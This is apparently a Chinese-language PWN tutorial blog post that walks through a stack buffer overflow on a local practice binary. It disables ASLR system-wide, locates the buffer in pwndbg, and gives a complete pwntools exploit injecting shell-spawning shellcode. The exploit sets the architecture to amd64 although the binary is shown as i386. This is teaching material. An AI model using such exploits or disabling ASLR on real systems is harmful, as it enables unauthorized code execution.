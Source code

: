 ```yaml
---
title: 'shellcode'
date: '2023-08-08'
lastmod: '2023-08-20'
tags: ['PWN', 'Stack']
draft: false
summary: '运行你自己的指令'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

在真正的漏洞利用中，你不太可能拥有 `win()` 函数。shellcode 是一种允许 **运行你自己的指令** 的方法，使你能够在系统上运行任意命令。

**shellcode** 本质上是 **一系列汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖返回地址（返回指针）以劫持代码，并执行我们自己的指令。

<Warning>
  我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。pwntools 很安全，并且几乎拥有你需要的所有 shellcode。
</Warning>

shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

LINK

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化内存的某些方面，可以看我的这篇博客：[NOPs](https://www.cubeyond.net/blog/nops) 。这种随机化可能会使我们的 shellcode 变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

<Note>
  类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很浪费时间的事情。
</Note>

<Warning>
  再次强调，如果你不知道指令的作用，则永远不要运行该指令。
</Warning>

## 0x02 确定缓冲区位置

使用 `pwndbg` 调试 `vuln`，并找出缓冲区在内存中的起始位置；这就是我们想要将返回地址指向的位置。

```
$ pwndbg vuln
$ disass unsafe
[...]
0x0804918a <+24>:	lea    eax,[ebx-0x1ff8]
[...]
0x0804919c <+42>:	lea    eax,[ebp-0x134]
[...]
0x080491ac <+58>:	mov    ebx,DWORD PTR [ebp-0x4]
[...]
```

可以根据大小判断哪个是 **局部变量**。根据缓冲区大小是 300，可以判断出 `ebp-0x134` 很可能是缓冲区。让我们在 `gets()` 之后设置一个断点并找到确切的返回地址。

```
$ b *0x080491a8
$ r
Overflow me
<<IM HERE>>  <== This was my input
$ x/20s $esp
[...]
0xffffd664:	"<<IM HERE>>"
[...]
```

它似乎位于 `0xffffd664` ；如果我们多次运行二进制文件，它应该保持在原来的位置（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding。我们将使用 De Bruijn 序列，如上一篇 [文章](https://www.cubeyond.net/blog/de-bruijn-sequences) 中所述。

```
$ pwndbg vuln
$ cyclic 500
<COPY THIS>
$ r
Overflow me
<<PASTE HERE>>

Program received signal SIGSEGV, Segmentation fault.
0x64616164 in ?? ()
[...]
$ cyclic -l 0x64616164
Finding cyclic pattern of 4 bytes: b'daad' (hex: 0x64616164)
Found at offset 312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 Exploit

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供 shellcode。

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.binary = ELF('./vuln')

p = process()
```

<Note>
  我们可以只使用 `process()`，因为一旦设置了 `context.binary` 就默认假定使用该进程。
</Note>

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode。

```python
payload = asm(shellcraft.sh())      # 构建 Shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664)          # 返回地址
```

现在让我们将其发送出去并使用 `p.interactive()`，它使我们能够与 shell 通信。

```python
p.sendline(payload)

p.interactive()
```

<Warning>
  如果你遇到 `EOFError`，请打印出 shellcode 并尝试在内存中查找它，栈地址可能是错误的。

  你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的 hook 调试方法来解决这个问题。
</Warning>

```
$ python exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 39321
[*] Switching to interactive mode
Overflow me
$ whoami
cub3y0nd
```

## 0x05 最终 Exploit

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())
payload = payload.ljust(312, b'A')
payload += p32(0xffffd664)

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode
- 然后，我们通过覆盖栈上保存的返回地址以指向我们的 shellcode
来劫持代码执行
- 一旦返回地址压入 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell

